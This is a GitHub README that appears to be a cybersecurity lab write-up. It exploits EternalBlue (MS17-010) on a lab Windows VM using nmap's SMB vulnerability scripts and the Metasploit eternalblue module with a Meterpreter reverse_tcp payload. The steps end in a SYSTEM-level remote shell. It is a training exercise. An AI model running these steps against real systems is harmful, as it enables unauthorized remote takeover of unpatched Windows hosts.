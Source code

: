 # Eternal Blue

## Objective:

- I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB1.jpg" alt="">
</p>

- I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB2.jpg" alt="">
</p>

- To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB3.jpg" alt="">
</p>

- To proceed, I launched the Metasploit framework using the **msfconsole** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB4.jpg" alt="">
</p>

- Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB5.jpg" alt="">
</p>

- I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB6.jpg" alt="">
</p>

- Initiating the attack, I executed the **exploit** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB7.jpg" alt="">
</p>

- To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB8.jpg" alt="">
</p>

- Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB9.jpg" alt="">
</p>
